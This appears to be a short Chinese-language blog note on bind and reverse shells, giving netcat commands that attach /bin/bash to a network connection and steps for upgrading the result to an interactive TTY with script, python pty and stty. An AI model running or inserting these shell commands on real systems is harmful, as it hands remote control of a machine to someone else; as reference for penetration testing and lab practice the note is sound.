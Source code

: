 ```yaml
---
title: "Reverse shell"
categories:
  - Blog
tags:
  - Bash
  - Reverse
last_modified_at: 2023-11-30
---
```


# Reverse shell

先弹 shell 就是正向 shell，后连接
后弹 shell 就是反向 shell，先监听

## 正向 shell

```bash
# 服务器端监听 1234 端口
nc -lvp 1234 -e /bin/bash
# 客户端连接 1234 端口
nc server_ip 1234
```

## 反向 shell

```bash
# 服务器端监听 1234 端口
nc -lvp 1234
# 客户端连接 1234 端口
nc server_ip 1234 -e /bin/bash
```

## interactive shell

- fix tty

```bash
# script command 用于记录终端会话
/usr/bin/script -qc /bin/bash /dev/null
# -q quiet
# -c command
```

or

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

```

- fix tty type char

```bash
# ctrl+z
stty raw -echo; fg
# <CR><CR>
```

- fix tty size

```bash
# get client tty size
stty -a
# set server tty size
export TERM=xterm-256color
stty rows 24 columns 80
```
